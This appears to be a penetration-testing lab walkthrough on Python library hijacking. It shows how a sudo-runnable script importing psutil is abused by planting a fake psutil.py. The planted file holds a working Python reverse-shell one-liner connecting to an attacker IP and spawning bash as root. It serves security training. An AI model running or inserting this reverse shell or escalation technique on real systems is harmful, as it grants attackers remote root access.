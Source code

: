 ### What is Python Library Hijacking?

When a Python script imports a library (like `psutil` or `pandas`), Python looks for the library in specific folders. If we can:
- Edit the original library file
- Or place a fake library in a folder Python checks first
- Or control the `PYTHONPATH` to force Python to look in a folder we control

Then we can **inject our own malicious code** and run it with **elevated privileges**.

---
### 🔍 Real-Life Scenario Summary

We are given:
- A Python script `mem_status.py`
- It uses the library `psutil`
- The script has **SUID bit set** → it runs as **root**

Let’s hijack the `psutil` module and run code as root!

## 1. Hijacking via **Writable Library File**

### 🔎 Step-by-Step

#### 1.(a) Check script permissions
```bash
ls -l mem_status.py

# Output
# `-rwsrwxr-x 1 root mrb3n 188 Dec 13 20:13 mem_status.py`
```
SUID is set → Runs as root  
✅ We can read and execute it

#### 1. (b) Sudo Permission: 
also check if we can excute the same python script with sudo permission:
```bash
sudo -l

# output
(ALL) NOPASSWD: /usr/bin/python3 /home/htb-student/mem_status.py
```
its mean we can run this script with root permission without any password

#### 2. Check which library is imported
```bash
# mem_status.py
import psutil
available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
```
in this case we can hijack the psutil library 
#### 3. Hijacking `psutil` library 
Now we will create a file in same folder with name `psutil` with python reverse shell code like and start the net-cat listener on attacker machine
```bash
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.10.15.40",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' > psutil.py
```

#### 4. Run the python script with sudo permission
```bash
sudo /usr/bin/python3 /home/htb-student/mem_status.py
```
now you will have the reverse shell
